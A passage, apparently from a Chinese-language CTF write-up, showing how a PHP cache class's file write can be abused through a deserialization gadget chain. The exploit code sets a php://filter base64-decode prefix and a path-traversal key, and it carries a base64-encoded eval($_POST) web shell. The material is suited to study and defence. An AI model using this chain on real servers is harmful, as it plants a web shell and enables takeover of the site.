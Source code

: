 ```php
            }
        }

        $data = $this->serialize($value);

        if ($this->options['data_compress'] && function_exists('gzcompress')) {
            //数据压缩
            $data = gzcompress($data, 3);
        }

        $data = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . $data;
        $result = file_put_contents($filename, $data);

        if ($result) {
            return $filename;
        }

        return null;
    }

}
```

可以看到我们需要最终执行的结果为

```php
$data = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . $data;
$result = file_put_contents($filename, $data);
```

在上面我们的`$data`变量经过`serialize`得到,`serialize`是一个可控变量，`serialize`后可以进行压缩，但是这里不进行压缩，所以`$this->options['data_compress']`需要定义为`false`，`serialize`方法将其定义为`strval`，因为`php`支持动态生成成员，构造`payload`

```php
<?php

class B {
    public $options;
    public function __construct() {
        $this->options['data_compress'] = false;
        $this->options['serialize'] = 'strval';
        $this->options['expire'] = 111;
        $this->options['prefix'] = 'php://filter/write=convert.base64-decode/resource=uploads/';
    }
}

class A {
    protected $store;
    protected $key;
    protected $expire;

    public function __construct() {
        $this->key='/../a3.php/.';
        $this->expire=111;
        $this->store=new B();
    }

}



$a = new A();
$a->autosave = false;
$a->cache = array('111'=>array("path" => "PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+"));
$a->complete='2';
```